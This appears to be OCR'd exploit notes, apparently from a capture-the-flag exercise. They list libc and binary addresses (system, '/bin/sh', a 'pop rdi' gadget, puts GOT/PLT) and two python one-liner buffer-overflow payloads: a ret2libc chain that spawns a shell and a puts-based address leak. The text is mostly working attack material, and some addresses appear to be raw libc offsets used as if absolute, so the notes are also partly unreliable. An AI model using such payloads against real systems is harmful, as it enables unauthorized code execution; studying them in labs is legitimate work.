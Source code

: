 system(): 0x7ffff7e368a0
"/bin/sh": 0x001b3e9a


"pop rdi": 0x0000000000400733
libc.so.6 "/bin/sh": 0x001b3e9a
libc.so.6 system(): 0x4f440

payload: python -c 'print "A"*24 + "\x33\x07\x40\x00\x00\x00\x00\x00" + "\x9a\x3e\x1b\x00\x00\x00\x00\x00" + "\x40\xf4\x04\x00\x00\x00\x00\x00"'



got_put: 0x601018
plt_put: 0x400520
leaked puts payload: python -c 'print "A"*24 + "\x33\x07\x40\x00\x00\x00\x00\x00" + "\x18\x10\x60\x00\x00\x00\x00\x00" + "\x20\x05\x40\x00\x00\x00\x00\x00"'

main(): 0x400637

